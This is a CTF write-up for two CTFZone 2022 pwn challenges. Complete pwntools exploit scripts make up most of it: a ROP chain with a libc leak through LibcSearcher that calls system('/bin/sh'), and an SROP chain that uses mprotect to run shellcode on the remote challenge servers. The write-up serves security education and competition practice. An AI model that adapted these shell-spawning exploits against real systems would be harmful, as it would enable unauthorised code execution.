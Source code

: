 ```yaml
---
title: CTFZone 2022
date: 2022-08-26 19:21:00
category: CTF Writeup
tags:
    - CTFZone
---
```


## OneChat

A message board chat program. Someone can leave a message and can view latest message. However, a buffer overflow happened in `add_message` function. Since no PIE and ASLR, a ROP chain can be made. 

Learned to use `LibcSearcher`, since the organizer didn't provide libc version in the challenge attatchment. 

EXP:

```python
from pwn import *
from LibcSearcher import *


context.arch = "amd64"
context.encoding = "latin"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

HOST = "onechat.ctfz.one"
PORT = 1337
LOCAL = False
elf = ELF("./chat")

if LOCAL:
    p = elf.process()
    gdb.attach(p, """
            b *0x4013e0
            c
            """)
else:
    context.update(log_level="info")
    p = remote(HOST, PORT)

# Exploit starts here
p.sendlineafter('>', b'1')
p.sendlineafter('>', b'2')

elf_rop = ROP(elf)
pop_rdi = elf_rop.find_gadget(["pop rdi", "ret"]).address
pop_rsp = elf_rop.find_gadget(["pop rsp", "pop r13", "pop r14", "pop r15", "ret"]).address
pop_rbp = elf_rop.find_gadget(["pop rbp", "ret"]).address
p.sendlineafter('>', p64(elf.got["puts"]) + b'\x16\x10')
# p.sendlineafter('>', cyclic(500))
payload = b'\x40\x00\x00\x00\x00\x00' + flat(
        elf.plt["puts"],
        0x4010b0,
        b'A' * 0x68,
        # start of ROP chain
        pop_rdi,
        )
p.sendlineafter('>', payload)
p.read()
puts = u64(p.read()[:6] + b"\x00\x00")
print("LEAK: LIBC_PUTS", hex(puts))
libc = LibcSearcher('puts',puts)
libcbase = puts-libc.dump('puts')
info('libc->'+hex(libcbase))
system = libcbase+libc.dump('system')
info('system->'+hex(system))
binsh = libcbase+libc.dump('str_bin_sh')

p.sendline(b'1')
p.sendlineafter('>', b'1')
p.sendlineafter('>', b'2')

p.sendlineafter('>', p64(binsh) + b'\x16\x10')
payload2 = b'\x40\x00\x00\x00\x00\x00' + flat(
        system,
        b'B' * 0x70,
        # start of ROP chain
        pop_rdi,
        )
p.sendlineafter('>', payload2)


p.interactive()
```

## microp

A very simple program, just read in user input by `sys_read` and then return. First thing come up to mind is to take control of the syscalls by controling `rax`, which is the length of user input. However, I have no way to modify `rdi` to run `sys_execve`. 

After 2019's instruction, it is a classic [SROP](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) challenge. We can use `sys_sigreturn` to trigger the signal frame and get control of all registers. Here we use `sys_mprotect` to modify the previlege of the program page to get shellcode execution. 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.encoding = "latin"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

HOST = "microp.ctfz.one"
PORT = 2228
LOCAL = False
elf = ELF("./microp")

if LOCAL:
    p = gdb.debug("./microp", "b *0x40105A\nc\nc\nc\nc")
else:
    context.update(log_level="info")
    p = remote(HOST, PORT)

# Exploit starts here
syscall = 0x401058
start = 0x401044
padding = 0x40

payload = b'A' * padding + p64(start) * 3
p.send(payload)
sleep(3)

# call mprotect make a page rwx
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_mprotect
sigframe.rdi = 0x400000
sigframe.rsi = 0x1000
sigframe.rdx = 0x7
sigframe.rsp = 0x400088
sigframe.rip = syscall

p.sendline(p64(start) + b'C' * 8 + p64(start) * 8 + p64(syscall) * 2 + bytes(sigframe)[8:])
sleep(3)
p.send(p64(start) + b'B' * 7)
sleep(3)
payload = b'A' * padding + p64(0x400090) + asm(shellcraft.sh())
p.sendline(payload)

p.interactive()
```
